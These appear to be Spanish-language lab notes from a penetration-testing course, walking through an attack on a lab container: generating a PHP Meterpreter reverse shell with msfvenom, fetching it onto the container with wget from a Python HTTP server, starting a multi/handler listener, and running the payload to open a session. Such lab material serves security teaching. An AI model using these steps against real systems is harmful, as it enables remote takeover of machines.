 ## Payloads con msfvenom y multi/handler

- Para crear un payload personalizado para tratar de explotar una página web vulnerable
- Cheatsheet msfvenom:
![](img/Untitled.png)

- El **tool msfvenom** es una aplicación que genera payloads en diferentes lenguajes de programación con diversos efectos maliciosos. Uno de los más típicos es ejecutar un reverse shell de Meterpreter en un sistema infectado
- Vamos a probar esto:
	- Inicia sesión en el contenedor de ubuntu como usuario sin privilegios (**testUser**)
	- El contenedor de escalada de privilegios Ubuntu puede ejecutar páginas web PHP con `php <fichero_php>` y cualquier usuario puede escribir páginas web en el directorio por defecto `/var/www/html`
	- El contenedor Ubuntu está en una IP fija
	- Creamos un payload de Meterpreter reverse shell con PHP (más info en: https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/): `msfvenom -p php/meterpreter_reverse_tcp LHOST=<tu dirección IP> LPORT=<tu puerto> -f raw > shell.php` ![](img/Pasted image 20230601124144.png)
	- Ahora, para transferirlo a la máquina objetivo, creamos un servidor de python para leer archivos en un puerto determinado con: `python3 -m http.server <port>` ![](img/Pasted image 20230601124901.png)
	- Ahora transferimos el archivo con: `wget http://<ip>:<port>/<file>` ![](img/Pasted image 20230601130749.png)
	- Como el payload no se ejecutará dentro de msf, sino en la máquina remota, crea un payload listener `multi/handler` de la siguiente forma (usa un Stageless porque es un contenedor):
````bash
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST 172.12.0.2  
set LPORT 4444
````
- Ejecuta el exploit en segundo plano: `exploit -j`
- Ahora ejecutamos el shell.php en la máquina víctima: `php -f shell.php`
- Se nos crea una sesión: ![](img/Pasted image 20230601131210.png)